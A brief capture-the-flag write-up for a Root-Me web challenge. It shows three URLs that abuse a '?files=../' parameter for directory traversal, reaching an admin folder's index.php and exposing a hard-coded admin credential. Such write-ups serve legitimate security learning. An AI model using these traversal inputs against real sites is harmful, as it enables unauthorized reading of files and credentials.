 Well, as usual the page is loaded thanks to an argument ?files=...

We go to:

```
http://challenge01.root-me.org/web-serveur/ch16/?files=../
http://challenge01.root-me.org/web-serveur/ch16/?files=../admin/
http://challenge01.root-me.org/web-serveur/ch16/?files=../admin&f=index.php
```

We can read
```
$realm = 'PHP Restricted area';
$users = array('admin' => 'FLAG');
```

'Gratz
